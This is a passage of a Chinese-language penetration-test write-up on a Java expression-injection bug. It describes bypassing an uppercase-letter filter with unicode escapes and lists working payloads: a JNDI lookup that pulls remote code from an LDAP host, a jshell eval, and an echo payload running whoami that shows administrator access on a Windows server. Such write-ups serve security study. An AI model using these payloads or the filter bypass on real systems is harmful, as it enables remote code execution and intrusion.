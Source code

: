 一开始以为是将一些危险的函数之类的做了黑名单的处理，进一步测试发现是将用户输入的所有大写字母都做了处理，不知道开发人员是怎么想的呢？让人摸不着头脑。

![图片](assets/1706513706-e3fb497074ec11eb0983d57e96deec51.png)

经过不懈的努力之后发现直接用 unicode 编码 payload 的大写字母就可以绕过了，如下，无回显执行命令成功。  

![图片](assets/1706513706-97fa4ad3d7c5a0ee0d21746e0fdcfcda.png)

当然，在不考虑实际漏洞利用环境限制的前提下，还有很多可以执行命令的方式。例如：

```plain
${new javax.naming.InitialContext().lookup("ldap://xxx.xxx.xxx.xxx/a")}  #JNDI 注入利用，需要出网条件
${@jdk.jshell.Jshell@create().eval('java_code')}  #需要 JDK9 以后版本
```

构造回显 payload，成功执行 whoami 命令，得知服务器操作系统为 Windows，用户权限为管理员权限。  

```plain
${#a=(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.ProcessBuilder({'whoami'}).start().getInputStream()))).readLine()}
```

![图片](assets/1706513706-e7e3b0aed83cc9592f4300824e9507fb.png)
